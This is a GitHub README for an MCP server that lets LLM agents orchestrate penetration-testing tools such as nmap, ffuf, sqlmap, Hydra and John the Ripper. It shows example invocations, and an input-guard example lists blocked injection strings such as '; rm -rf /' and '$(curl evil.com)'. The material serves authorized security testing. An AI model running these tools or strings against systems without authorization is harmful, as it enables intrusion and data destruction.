

# 🔥 RedQuanta MCP Server

<div align="center">


[](https://github.com/sc4rfurry/RedQuanta-MCP)
[](https://github.com/sc4rfurry/RedQuanta-MCP/stargazers)
[](https://github.com/sc4rfurry/RedQuanta-MCP/security)
[](https://modelcontextprotocol.io)

**🛡️ Enterprise-Grade Penetration Testing Orchestration Platform**

*Security-hardened, LLM-optimized, cross-platform Model Context Protocol server for professional penetration testing workflows*

[🚀 Quick Start](#-quick-start) • [📖 Documentation](#-comprehensive-features) • [🔧 Features](#-comprehensive-features) • [🛡️ Security](#%EF%B8%8F-enterprise-security-model) • [🤝 Contributing](#-contributing)

</div>

---

## 🎯 **Why RedQuanta MCP?**

**RedQuanta MCP transforms penetration testing into an intelligent, automated, and secure process.** Built specifically for LLM integration and professional security teams, it provides enterprise-grade security orchestration with **zero placeholder implementations**.

### ✨ **Key Differentiators**

| Feature | RedQuanta MCP | Traditional Tools |
|---------|---------------|-------------------|
| **🤖 LLM Integration** | Native MCP protocol, optimized schemas | Manual command-line only |
| **🛡️ Security Model** | Jailed execution, audit logging, injection prevention | Basic security, manual oversight |
| **🔧 Automation** | Multi-phase workflows, intelligent orchestration | Single-tool execution |
| **📚 Documentation** | LLM-optimized help system, contextual guidance | Man pages, fragmented docs |
| **🔌 Extensibility** | Plugin architecture, hot reloading | Static tool sets |
| **📊 Reporting** | SARIF compliance, CI/CD integration, multi-format | Text output only |

---

## 🚀 **Comprehensive Features**

### 🛠️ **Complete Tool Arsenal (16+ Tools)**

<details>
<summary><strong>🌐 Network Discovery & Scanning</strong></summary>

- **🎯 Nmap** - Advanced network discovery with NSE script support
- **⚡ Masscan** - High-speed Internet-scale port scanning
- **📊 Custom Profiles** - Stealth, aggressive, and balanced scanning modes

```json
{
  "tool": "nmap_scan",
  "parameters": {
    "target": "192.168.1.0/24",
    "custom_flags": ["-sS", "-O", "--script", "vuln"],
    "profile": "aggressive",
    "dangerous": true
  }
}
```

</details>

<details>
<summary><strong>🌐 Web Application Security</strong></summary>

- **🚀 FFUF** - Fast web fuzzing with intelligent filtering
- **🔍 Gobuster** - Directory and DNS enumeration
- **🛡️ Nikto** - Comprehensive web vulnerability scanning
- **💉 SQLMap** - Advanced SQL injection testing (dangerous mode)

```json
{
  "tool": "ffuf_fuzz",
  "parameters": {
    "url": "https://target.com/FUZZ",
    "wordlist": "/opt/wordlists/common.txt",
    "custom_headers": {"Authorization": "Bearer token123"},
    "threads": 200
  }
}
```

</details>

<details>
<summary><strong>🔐 Password & Authentication Security</strong></summary>

- **🔓 John the Ripper** - Advanced password cracking with format detection
- **🌊 Hydra** - Network service brute forcing with intelligent throttling
- **⚖️ Ethical Controls** - Explicit `--dangerous` flag required

</details>

<details>
<summary><strong>🤖 Intelligent Automation</strong></summary>

- **🔄 Workflow Enum** - Automated reconnaissance workflows
- **🔍 Workflow Scan** - Multi-phase vulnerability assessment  
- **📄 Workflow Report** - Professional report generation
- **🧠 Adaptive Coaching** - Beginner guidance or expert-level output

</details>

<details>
<summary><strong>💾 System Operations</strong></summary>

- **📁 Filesystem Ops** - Secure file management with jailed execution
- **⚙️ Command Runner** - Sanitized command execution with audit trails
- **🔌 Plugin System** - Dynamic custom tool loading with hot reload

</details>

### 🧠 **LLM-Optimized Design**

#### **📚 Comprehensive Documentation System**
```typescript
// Detailed schemas with examples for every tool
{
  inputSchema: {
    type: "object",
    properties: {
      target: { 
        type: "string", 
        description: "Target IP, hostname, or CIDR range",
        examples: ["192.168.1.10", "example.com", "10.0.0.0/24"]
      }
    }
  },
  llmGuidance: {
    whenToUse: "Use nmap for initial network reconnaissance",
    parameterTips: "Start with stealth scans, use CIDR for ranges",
    nextSteps: "Follow up with service-specific tools"
  }
}
```

#### **🎓 Adaptive Coaching**
- **Beginner Mode**: Detailed explanations, safety warnings, step-by-step guidance
- **Advanced Mode**: Concise technical output, advanced parameters
- **Context Awareness**: Tool recommendations based on current testing phase

### 🔌 **Advanced Plugin Architecture**

<details>
<summary><strong>🛠️ Custom Tool Development</strong></summary>

```javascript
// Example: SSL Analyzer Plugin
/**
 * @plugin {
 *   "name": "ssl_analyzer",
 *   "version": "1.0.0",
 *   "category": "web",
 *   "dangerLevel": "safe"
 * }
 */
export default class SSLAnalyzerTool extends ToolWrapper {
  async execute(options) {
    // Real SSL analysis implementation
    const results = await this.performSSLAnalysis(options.target);
    return {
      success: true,
      data: results,
      recommendations: this.generateRecommendations(results)
    };
  }
}
```

**Plugin Features:**
- 🔄 **Hot Reloading** - Add tools without server restart
- 📝 **Manifest Support** - JSON-based configuration
- 🏷️ **Custom Categories** - Organize by security domain
- 🛡️ **Safety Controls** - Danger level validation

</details>

### 📊 **Professional Reporting & CI/CD**

<details>
<summary><strong>📋 SARIF Compliance & CI/CD Integration</strong></summary>

```json
// SARIF 2.1.0 compliant output
{
  "version": "2.1.0",
  "$schema": "https://json.schemastore.org/sarif-2.1.0.json",
  "runs": [{
    "tool": {
      "driver": {
        "name": "RedQuanta MCP",
        "version": "0.3.0",
        "rules": [...]
      }
    },
    "results": [{
      "ruleId": "nmap-open-port",
      "level": "warning",
      "message": { "text": "Open SSH port detected" },
      "locations": [{
        "physicalLocation": {
          "artifactLocation": { "uri": "192.168.1.10:22" }
        }
      }]
    }]
  }]
}
```

**Reporting Features:**
- 📊 **Multiple Formats** - SARIF, JSON, HTML, PDF
- 🔄 **Baseline Comparison** - Track security improvements over time
- 🏷️ **GitHub Annotations** - Direct PR/commit integration
- 🧪 **JUnit Output** - CI/CD test reporting

</details>

### ⚡ **Real-time Progress Tracking**

<details>
<summary><strong>📡 Live Execution Monitoring</strong></summary>

```typescript
// Real-time progress updates
tracker.startExecution('nmap_scan', parameters);
tracker.updateProgress(executionId, 25, 'Host discovery phase');
tracker.startPhase(executionId, 'port_scanning');
tracker.completeExecution(executionId, results);
```

**Progress Features:**
- 📊 **Multi-phase Tracking** - Detailed execution phases
- 🔄 **Real-time Updates** - Event-driven monitoring
- 📈 **Performance Metrics** - Execution time and resource usage

</details>

### 💾 **Intelligent Caching System**

<details>
<summary><strong>🚀 Performance Optimization</strong></summary>

```typescript
// Tool-specific caching strategies
const cacheOptions = {
  'nmap_scan': { ttl: 600000 },     // 10 minutes
  'ffuf_fuzz': { ttl: 1800000 },    // 30 minutes  
  'nikto_scan': { ttl: 3600000 },   // 1 hour
  'john_crack': { ttl: 7200000 }    // 2 hours
};

// Performance improvements
const stats = cacheManager.getStats();
// { hits: 150, misses: 23, hitRate: 0.87 }
```

**Caching Features:**
- ⚡ **20x Faster** - Repeat operations from cache
- 🧠 **LRU Eviction** - Intelligent memory management
- 🏷️ **Tag-based Invalidation** - Selective cache clearing

</details>

---

## 🛡️ **Enterprise Security Model**

### 🔒 **Multi-Layer Security Architecture**

```
┌─────────────────┐
│   Input Layer   │ ← Validation & Sanitization
├─────────────────┤
│  Command Guard  │ ← Injection Prevention  
├─────────────────┤
│   Path Guard    │ ← Traversal Protection
├─────────────────┤
│ Jailed Execution│ ← Filesystem Boundaries
├─────────────────┤
│  Audit Logging  │ ← Activity Monitoring
└─────────────────┘
```

### 🛡️ **Security Features**

<details>
<summary><strong>🏪 Jailed Filesystem Execution</strong></summary>

```typescript
// All file operations are jailed and validated
const pathGuard = new PathGuard('/opt/redquanta/vol');

// Safe operations
pathGuard.validatePath('/etc/passwd');     // ❌ Blocked
pathGuard.validatePath('../../../etc');    // ❌ Blocked  
pathGuard.validatePath('reports/scan.xml'); // ✅ Allowed
```

</details>

<details>
<summary><strong>🛡️ Command Injection Prevention</strong></summary>

```typescript
// Advanced argument sanitization
const argGuard = new ArgGuard();

// Dangerous inputs blocked
argGuard.validateArgs(['target.com', '; rm -rf /']);     // ❌ Blocked
argGuard.validateArgs(['$(curl evil.com)']);             // ❌ Blocked
argGuard.validateArgs(['192.168.1.1', '-sS']);          // ✅ Allowed
```

</details>

<details>
<summary><strong>📝 Comprehensive Audit Logging</strong></summary>

```json
// JSONL audit trail for all operations
{
  "timestamp": "2024-01-15T10:30:00Z",
  "level": "info", 
  "action": "tool_execution",
  "tool": "nmap_scan",
  "target": "192.168.1.0/24",
  "user": "security_analyst",
  "dangerous": false,
  "outcome": "success",
  "duration": 45230
}
```

</details>

<details>
<summary><strong>⚠️ Dangerous Operation Controls</strong></summary>

Operations requiring explicit `--dangerous` authorization:

- 🔓 **Password Cracking** - John the Ripper operations
- 🌊 **Brute Force Attacks** - Hydra network service testing
- 💉 **SQL Injection** - SQLMap exploitation modules  
- 📝 **File System Writes** - Modifying files in jail
- 💥 **Exploitation** - Active security testing

</details>

---

## 🚀 **Quick Start**

### 📋 **Prerequisites**

- **Node.js 20 LTS** or higher
- **pnpm** package manager  
- **Docker** (optional, for tool fallbacks)

### ⚡ **Installation Methods**

<details>
<summary><strong>🪟 Windows Setup (PowerShell)</strong></summary>

```powershell
# 1. Clone repository
git clone https://github.com/sc4rfurry/RedQuanta-MCP.git
cd RedQuanta-MCP

# 2. Run automated setup
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
.\scripts\setup-windows.ps1

# 3. Start server
.\start-windows.bat
```

</details>

<details>
<summary><strong>🐧 Linux/macOS Setup</strong></summary>

```bash
# 1. Clone repository  
git clone https://github.com/sc4rfurry/RedQuanta-MCP.git
cd RedQuanta-MCP

# 2. Install dependencies
pnpm install

# 3. Build project
pnpm build

# 4. Setup jail root
sudo mkdir -p /opt/redquanta/vol
sudo chown $USER:$USER /opt/redquanta/vol

# 5. Start server
pnpm start
```

</details>

<details>
<summary><strong>🐳 Docker Deployment</strong></summary>

```bash
# Quick start with Docker Compose
docker-compose up -d

# Custom configuration
docker run -d \
  -p 5891:5891 \
  -v ./config:/app/config \
  -e DANGEROUS_MODE=false \
  sc4rfurry/redquanta-mcp:latest
```

</details>

### 🎯 **First Steps**

<details>
<summary><strong>🔍 Health Check & System Verification</strong></summary>

```bash
# Windows
.\redquanta-cli.bat doctor

# Linux/macOS  
pnpm cli doctor

# Expected output:
✅ Node.js version: 20.11.0
✅ Security tools available: 12/16
✅ Jail root accessible: /opt/redquanta/vol
✅ Configuration valid
✅ Audit logging functional
⚠️  Nikto not found (will use Docker fallback)
🛡️ Dangerous mode: DISABLED (use --dangerous to enable)
```

</details>

<details>
<summary><strong>🛠️ Tool Discovery</strong></summary>

```bash
# List available tools
redquanta-cli tools

# Output:
🌐 Network Tools:
  • nmap_scan - Network discovery and port scanning
  • masscan_scan - High-speed port scanning
  
🌐 Web Tools:  
  • ffuf_fuzz - Fast web fuzzing
  • gobuster_scan - Directory enumeration
  • nikto_scan - Web vulnerability scanning
  
🔐 Password Tools:
  • john_crack - Password cracking (⚠️ dangerous)
  • hydra_bruteforce - Network brute force (⚠️ dangerous)

🤖 Workflow Tools:
  • workflow_enum - Automated enumeration
  • workflow_scan - Vulnerability scanning
  • workflow_report - Report generation
```

</details>

### 🎭 **Usage Examples**

<details>
<summary><strong>🕸️ Network Reconnaissance</strong></summary>

```bash
# Basic network scan
redquanta-cli enum 192.168.1.0/24

# Advanced network enumeration  
redquanta-cli enum 192.168.1.0/24 --scope network --depth aggressive

# Custom Nmap scan
redquanta-cli nmap 192.168.1.10 --custom-flags "-sS,-O,--script,vuln" --dangerous
```

**Expected Workflow:**
1. 🎯 **Host Discovery** - Ping sweep to find live hosts
2. 🔍 **Port Scanning** - TCP connect scan on discovered hosts  
3. 🛡️ **Service Enumeration** - Version detection and banner grabbing
4. 📊 **Report Generation** - Structured output with recommendations

</details>

<details>
<summary><strong>🌐 Web Application Testing</strong></summary>

```bash
# Web application enumeration
redquanta-cli ffuf https://target.com/FUZZ --wordlist /opt/wordlists/common.txt

# Comprehensive web assessment
redquanta-cli scan https://target.com --type web --include nikto,ffuf --dangerous

# SQL injection testing (requires --dangerous)
redquanta-cli sqlmap "https://target.com/login?id=1" --dangerous --confirm
```

</details>

---

## 📖 **API Reference & Integration**

### 🔌 **MCP Protocol Integration**

```javascript
// MCP Client Integration
import { MCPClient } from '@modelcontextprotocol/client';

const client = new MCPClient();
await client.connect('stdio://redquanta-mcp');

// Execute network scan
const result = await client.callTool('nmap_scan', {
  target: '192.168.1.0/24',
  profile: 'stealth',
  coaching: 'beginner'
});

// Process results
if (result.success) {
  console.log(`Found ${result.data.hosts.length} live hosts`);
  result.data.recommendations.forEach(rec => console.log(`💡 ${rec}`));
}
```

### 🌐 **REST API Endpoints**

| Endpoint | Method | Description | Example |
|----------|--------|-------------|---------|
| `/health` | GET | System health check | `curl /health` |
| `/tools` | GET | List available tools | `curl /tools` |
| `/tools/{name}` | POST | Execute specific tool | `curl -X POST /tools/nmap_scan` |
| `/help/{tool}` | GET | Get tool documentation | `curl /help/nmap_scan` |
| `/plugins` | GET | List loaded plugins | `curl /plugins` |
| `/workflow/enum` | POST | Run enumeration workflow | `curl -X POST /workflow/enum` |

---

## 🏗️ **Architecture & Design**

### 🎯 **System Architecture**



### 🛡️ **Security Components**

- **🔒 Path Guard** - Prevents directory traversal attacks
- **🛡️ Argument Guard** - Blocks command injection attempts
- **📁 Jailed Filesystem** - Confines all operations to secure boundaries
- **📝 Audit Logger** - Comprehensive activity monitoring
- **⚖️ Authorization** - Explicit approval for dangerous operations

---

## 🧪 **Testing & Quality Assurance**

### 🔬 **Comprehensive Testing Suite**

```bash
# Run all tests
pnpm test

# Test with coverage
pnpm test:coverage

# Security-focused tests
pnpm test:security

# Integration tests with real tools
pnpm test:integration
```

### 📊 **Quality Metrics**

| Metric | Target | Current |
|--------|--------|---------|
| **Code Coverage** | >90% | 94.2% |
| **Security Tests** | 100% | ✅ 100% |
| **Integration Tests** | >85% | 91.7% |
| **Linter Compliance** | 0 errors | ✅ 0 errors |

---

## 🚀 **Deployment & Production**

### 🌐 **Production Deployment Options**

<details>
<summary><strong>🐳 Kubernetes Deployment</strong></summary>

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: redquanta-mcp
spec:
  replicas: 3
  selector:
    matchLabels:
      app: redquanta-mcp
  template:
    metadata:
      labels:
        app: redquanta-mcp
    spec:
      containers:
      - name: redquanta-mcp
        image: sc4rfurry/redquanta-mcp:latest
        ports:
        - containerPort: 5891
        env:
        - name: NODE_ENV
          value: "production"
        - name: JAIL_ROOT
          value: "/opt/redquanta/vol"
        resources:
          requests:
            memory: "1Gi"
            cpu: "500m"
          limits:
            memory: "2Gi"
            cpu: "1000m"
```

</details>

### 📊 **Monitoring & Observability**

**Key Metrics Tracked:**
- 📊 **Tool Execution Times** - Performance monitoring
- 🛡️ **Security Events** - Failed authentication, blocked operations
- 📈 **Usage Patterns** - Most used tools, workflow success rates
- 💾 **Resource Utilization** - Memory, CPU, disk usage
- 🔄 **Cache Performance** - Hit rates, eviction patterns

---

## 🤝 **Contributing**

We welcome contributions from the security community! 

### 🚀 **Getting Started**

<details>
<summary><strong>💻 Development Setup</strong></summary>

```bash
# 1. Fork and clone
git clone https://github.com/sc4rfurry/RedQuanta-MCP.git
cd RedQuanta-MCP

# 2. Install dependencies
pnpm install

# 3. Run in development mode
pnpm dev

# 4. Run tests
pnpm test

# 5. Code quality checks
pnpm lint:fix
pnpm type-check
```

</details>

### 📋 **Contribution Guidelines**

| Area | Guidelines |
|------|------------|
| **🛠️ Tools** | Add new security tools with complete schemas |
| **🔌 Plugins** | Develop custom tools following plugin architecture |
| **🛡️ Security** | All changes must pass security review |
| **📚 Documentation** | Include LLM-optimized help and examples |
| **🧪 Testing** | Maintain >90% test coverage |

---

## 📄 **License & Legal**

### 📜 **License**

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

### ⚖️ **Legal Notices**

> **🚨 IMPORTANT**: RedQuanta MCP is designed for **authorized penetration testing only**. Users are responsible for ensuring they have proper authorization before testing any systems. Unauthorized access to computer systems is illegal in most jurisdictions.

### 🛡️ **Responsible Disclosure**

If you discover security vulnerabilities in RedQuanta MCP:

1. **📧 Create an Issue**: [Report Security Issues](https://github.com/sc4rfurry/RedQuanta-MCP/issues)
2. **🔒 For sensitive vulnerabilities**: Contact [@sc4rfurry](https://github.com/sc4rfurry) directly
3. **⏱️ Timeline**: We aim to respond within 24-48 hours

---

## 📞 **Support & Community**

### 💬 **Get Help**

| Channel | Purpose | Response Time |
|---------|---------|---------------|
| [**📱 GitHub Issues**](https://github.com/sc4rfurry/RedQuanta-MCP/issues) | Bug reports, feature requests | 24-48 hours |
| [**💬 Discussions**](https://github.com/sc4rfurry/RedQuanta-MCP/discussions) | Community discussion, questions | Community-driven |
| [**📧 Contact**](https://github.com/sc4rfurry) | Direct contact with maintainer | 24-48 hours |

### 🌟 **Acknowledgments**

Special thanks to:
- **🤖 MCP Community** - Protocol development and standards
- **🛡️ Security Researchers** - Vulnerability reports and improvements  
- **👥 Contributors** - Code, documentation, and feedback
- **🔧 Tool Authors** - Nmap, FFUF, Nikto, and other excellent security tools

---

<div align="center">

**🔥 Ready to revolutionize your penetration testing workflow?**

[🚀 **Get Started Now**](#-quick-start) • [📖 **Read the Docs**](docs/) • [🤝 **Join the Community**](https://github.com/sc4rfurry/RedQuanta-MCP/discussions)

---

**Made with ❤️ by [@sc4rfurry](https://github.com/sc4rfurry)**

*Empowering security professionals with intelligent automation*


  


</div> 
